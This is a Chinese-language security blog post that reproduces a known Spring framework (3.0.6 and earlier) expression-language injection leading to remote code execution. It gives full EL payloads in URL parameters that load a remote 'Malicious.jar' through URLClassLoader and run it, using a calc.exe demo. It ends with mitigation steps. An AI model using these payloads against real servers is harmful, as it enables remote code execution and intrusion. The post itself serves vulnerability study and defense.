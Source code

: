 ```yaml
---
layout: post
title: "Spring框架远程代码执行"
date: 2014-07-26 00:20:04 +0800
comments: true
categories: "技术"
tags: [Spring,Expression Language] 
---
```


### 0x01 概述

2012年12月国外研究者DanAmodio发表《Remote Code with Expression Language Injection》一文，指出Spring框架存在潜在的代码注入风险。在2013年1月，国内安全研究人员在微博上分享了该篇文章的中文翻译内容。

文章中指出Spring框架3.0.6以下版本，在一定的条件下，可以被攻击者利用，执行任意的java代码，从而威胁系统的安全性。而且这些存在潜在威胁的版本，在全球范围中已经下载超过131.4万，由此可见此问题影响极为广泛。

我在这一周中针对文章中所提到的方法，进行了重现。本篇文章将向各位描述这个问题被触发所需要的条件，实现利用的细节，以及相关的一些防护方法。

<!-- more -->

### 0x02 环境搭建

先说下简单的测试代码吧，按照文章中所说的，在搭建好的Spring中添加一个jsp文件，其中包含如下代码：

```java
<%@page contentType="text/html;charset=GBK"%> 
<%@ taglib uri="/spring" prefix="spring"  %>
<html>   
<head><title>利用Spring输出HelloWorld</title></head>   
<%  
String str = (String)request.getAttribute("helloWorld");  
%> 
<spring:message text="${param['message']}" code="${param['foo']}"></spring:message>
<body>
<font size=’22’><%=str%></font> 
</body>   
</html>	
```

红色代码部分为测试的jsp代码。Spring的message标签的作用是，根据code取得消息资源，如果指定的code没有找到任何对应的消息资源，则采用text定义的内容。这里有一个比较奇怪的地方，文章中说在code属性处添加$param[‘message’]代码，通过访问http://target/file? message=${applicationScope}会在页面中打印出服务器环境的相关配置信息。但是，这个地方无论我用什么办法，都无法让它里面的内容显示出来。所以我不得不将测试的内容放到了text属性中（这两个属性都可以执行EL表达式）。

这个问题虽然有些摸不到头脑，但还是可以接受的，毕竟还是有地方让我做测试。在测试后面的内容才是我噩梦真正的开始！

在一开始测试时，我并没有按照作者所提供的Glassfish3.1.2.2+Spring3.0.6的环境测试，而是搭建Tomcat6.0+Spring3.0.2的环境。当我在这个环境中，想要通过java.lang.String类调用java方法时出现了问题，提示EL表达式错误。访问http://target/file? message= ${param.foo.replaceAll("P","Q")}&foo=PPPPP，错误显示如下图：

![1](/images/content/2014-07-25-01.png)

纠结了一天多的时间，各种搜索，只能搜索到各大网站对这篇文章的转载，没有一个具体分析的文章。在我就要崩溃的时候，发现了这样一句话“After some research, I learned that the EL 2.2 added support for method invocation.”。马上反应过来，这个特性应该是EL2.2新添加的，而Tomcat6.x是支持EL2.1的，然后果断的换成了支持EL2.2的Tomcat7.0。依旧访问那个url，结果如下图：

![2](/images/content/2014-07-25-02.png)

什么都没有！到底执行了没:(。又是崩溃了大半天，最后不得不乖乖的按照文章中环境进行搭建。这次终于成功了，不容易啊！

![3](/images/content/2014-07-25-03.png)

### 0x03 代码执行技术细节

通过上一章最后测试的结果，我们不难看出，在一定的环境下，我们是可以通过EL表达式来调用java代码的。但是由于限制条件，我们能够做的事情也是很有限的。不过，DanAmodio和他的朋友在不断的努力下，终于找到了一个，可以使它执行任意代码的方法。

他们想到通过java的反射机制，来动态的加载一些类和方法。但是，很多的强大的类（如：Runtime）的newinstance方法是不允许被调用的，没有办法对它们进行初始化，也就是说，不能直接的调用这些强大的类和方法。

后来，他们发现了URLClassLoader这个类提供了newinstance这个方法。这个方法是可以动态加载远程代码的类，这样新的利用方法就出炉了！
首先在我们另一台服务器上放置编译如下代码的jar文件：

```java
public class Malicious {
    public Malicious() {
	   try {
                  java.lang.Runtime.getRuntime().exec("calc.exe"); //Win
           } catch (Exception e) {
           }
    }
}
```

然后我们通过EL表达式创建一个数组（URLClassLoader的构造函数需要URL数组作为参数），存放在session中，url为http://target/file? message=${pageContext.request.getSession().setAttribute("arr","".getClass().forName("java.util.ArrayList").newInstance())}。

下一步我们通过URI提供的create方法，可以创建一个URL实例，我们把这个实例保存在刚刚创建的数组中，url为http://target/file?message= ${pageContext.request.getSession().getAttribute("arr").add(pageContext.getServletContext().getResource("/").toURI().create("http://serverip/Malicious.jar").toURL())}。

Malicious.jar文件就是我们之前保存在另一台服务器中的jar文件。EL表达式中的PageContext类中getClassLoader方法得到的对象的父类便是URLClassLoader，所以，我们便可以调用newInstance方法了，url为http://target/file?message= ${pageContext.getClass().getClassLoader().getParent().newInstance(pageContext.request.getSession().getAttribute("arr").toArray(pageContext.getClass().getClassLoader().getParent().getURLs())).loadClass("Malicious").newInstance()}。

来看下效果图吧，嘿嘿

![4](/images/content/2014-07-25-03.png)

### 0x04 总结

1. 这个问题利用的环境，在目前看来是只有Glassfish3.1.2.2+Spring3.0.6及其之前版本环境可以实现。从理论上来看应该只要服务端支持EL2.2就可以实现，但是不知道什么原因Tomcat7.0虽然支持EL2.2，但是却没有得到我们预想中的效果。

2. 在测试过程中，遇到了一个比较低级的错误，就是编译jar 的java版本与服务端的java版本不符，导致代码无法成功执行。

3. 对于这种问题的防护，我们给出的建议是将Spring升级到3.1以上版本，因为这些新版本默认是将jsp的EL表达式支持关闭的。如果不能升级到3.0.6以上版本，请在web.xml中设置springJspExpressionSupport的参数为false，如下示例：

```xml
<context-param>
<description>Spring Expression Language Support</description>
<param-name>springJspExpressionSupport</param-name>
<param-value>false</param-value>
</context-param>
```

4. 另外即使你使用了Spring3.1以上版本，也要留心这个问题，因为它只是默认关闭了EL表达式的支持，而并不是修补了这个问题，不小心的配置很有可能会使这个问题死灰复燃的。

5. 本篇文章中虽然没有在Tomcat环境中测试成功，但并不代码这个问题不会在这种环境中出现，我们会继续跟踪这个问题。

